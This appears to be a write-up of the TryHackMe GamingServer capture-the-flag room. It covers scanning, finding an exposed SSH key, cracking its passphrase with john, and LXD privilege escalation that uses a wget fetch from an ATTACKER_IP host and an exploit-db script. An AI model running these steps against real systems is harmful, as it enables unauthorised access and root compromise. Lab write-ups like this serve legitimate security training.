

# GamingServer CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **GamingServer** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/gamingserver). 
---

Basic port scan 

```
nmap -sV -sC 10.10.44.124
```


Basic directory enumeration

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.44.124  
```


found `/secret` and `/uploads`

content of `/secret`


found RSA KEY

content of `/uploads`


found some possible password list


user might be john as suggested by comment on the site



preparing to crack the passphrase with ssh2john

```
ssh2john secretKey > hash.txt
```

now cracking password

```
john --wordlist=dict.lst hash.txt
```


found password: `letmein`


Now logging as john via ssh and first flag `user.txt`

```
ssh -i secretKey john@VICTIM_IP
```


using `linpeas.sh` to automated founding priv esc factor

```
scp -i secretKey ~/linpeas.sh john@10.10.44.124:/tmp/
```


USING LXD PRIVILEGE ESCALATION

download `alpine lxd` from `https://github.com/saghul/lxd-alpine-builder/blob/master/alpine-v3.13-x86_64-20210218_0139.tar.gz`

start python server on attacker `sudo python3 -m http-server`


download file on victim
```
wget ATTACKER_IP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

create exploit file from `https://www.exploit-db.com/exploits/46978` on victim

```
nano exploit.sh
chmod +x exploit.sh
```

to gain root
```
./exploit.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
```


getting root flag


# MACHINE PWNED
